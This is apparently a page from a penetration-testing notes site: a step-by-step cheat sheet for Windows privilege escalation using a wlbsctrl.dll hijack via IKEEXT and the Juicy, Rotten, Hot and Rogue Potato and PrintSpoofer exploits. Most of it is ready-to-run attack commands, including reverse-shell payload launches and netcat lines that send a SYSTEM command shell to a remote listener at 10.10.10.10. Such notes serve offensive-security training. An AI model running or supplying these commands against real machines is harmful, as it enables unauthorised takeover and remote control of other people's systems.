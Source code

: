 ```yaml
---
title: Potato
parent: Method (Windows)
layout: default
nav_order: 6
---
```


## Local Potato (DLL Injection)
Windows 10: `WptsExtensions.dll` (THIS WILL BREAK SYSTEM, USE WITH CARE!)\
WIndows 7 (can on others too if can put in system32): `wlbsctrl.dll`

If you can use LocalPotato on Win 10+, first create the malicious wlbsctrl.dll. Then copy it to system32 folder. IKEEXT might not be automatic so useless even if you can restart. A way to do this is to create the following and name it try.pbk:

try.pbk
```
[IKEEXT]
MEDIA=rastapi
Port=VPN2-0
Device=Wan Miniport (IKEv2)
DEVICE=vpn
PhoneNumber=127.0.0.1
```

Subsequently, use the following command:\
`rasdial IKEEXT test test /PHONEBOOK:try.pbk`

## Rotten / Juicy Potato
1. First run `whoami /priv` to check privilege (make sure have SeAssignPrimaryToken or SeImpersonate).
2. Run the following after transferring juicypotato and shell executable:\
   `JuicyPotato.exe -t * -p C:\Users\Public\shell.exe -l 5837`\
   (-t can set to t or u, l is arbritary port number, p is the shell executable)
3. If CLSID fails can try point 5 in alternative method below, or https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato
4. When the Windows version is Windows Server 2019 or Windows 10 build 1809 onwards, this will not work, use PrintSpoofer / RoguePotato instead.

Alternative:
1. Run `whoami /priv` to check the privilege.
2. Copy PSExec64.exe and the JuicyPotato.exe exploit executable over to Windows.
3. Start a listener on Kali. Use a service account (or account with SeImpersonate or SeAssignPrimaryToken): `PSExec64.exe -accepteula -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`
4. Start another listener for Kali. Run `JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d- 49b8-abc6-03dd84127020}`
5. If the CLSID dont work use `https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md` or run GetCLSID.ps1 from the link.


## Hot Potato
1. Copy the potato.exe to the victim
2. Start listener, then run this: `potato.exe -ip LocalIP -cmd "C:\PrivEsc\reverse.exe" - enable_httpserver true -enable_defender true -enable_spoof true - enable_exhaust true`
3. Windows Server 2008 (final parameter is wpad.domain.tld):\
   `Potato.exe -ip LocalIP -cmd "C:\PrivEsc\reverse.exe" -disable_exhaust true -disable_defender true -spoof_host WPAD.EMC.LOCAL`
4. Wait for a Windows defender update or manually trigger one. (Win Server 2008: Windows Update)

## PrintSpoofer/RoguePotato
Windows Server 2019 and Windows 10 build 1809 onwards

1. PrintSpoofer:\
   `PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd"`
2. RoguePotato:\
   `RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -f 9999`